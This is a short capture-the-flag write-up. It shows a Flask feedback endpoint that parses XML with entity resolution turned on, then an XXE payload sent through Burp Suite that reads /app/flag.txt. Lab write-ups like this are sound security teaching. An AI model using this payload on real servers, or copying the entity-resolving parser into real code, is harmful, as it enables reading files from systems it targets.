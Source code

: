 Upon inspecting the code, we can see that XML is used in the post request sent to the web server

```python
if request.method == 'POST':
        xml_data = request.data
        try:
            parser = etree.XMLParser(resolve_entities=True)
            root = etree.fromstring(xml_data, parser=parser)
        except etree.XMLSyntaxError as e:
            return render_template_string('<div style="color:red;">Error parsing XML: {{ error }}</div>', error=str(e))
        feedback_element = root.find('feedback')
        if feedback_element is not None:
            feedback = feedback_element.text
            return render_template_string('<div style="color:green;">Feedback sent to the Emus: {{ feedback }}</div>', feedback=feedback)
        else:
            return render_template_string('<div style="color:red;">Invalid XML format: feedback element not found</div>')

    return render_template('index.html')
```

Load the web server onto burpsuite.

Inspect the post request, you can see that it sends an XML request. This must mean it can be vulnerable to XXE injection

You can see that an XML request is sent, so we can modify it using a basic XXE injection where we read ```flag.txt``` through an XML entity object

```

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/app/flag.txt"> ]>
            <root>

                <feedback>
a&example;
</feedback>
            </root>
            

```

Upon sending, we get the flag. 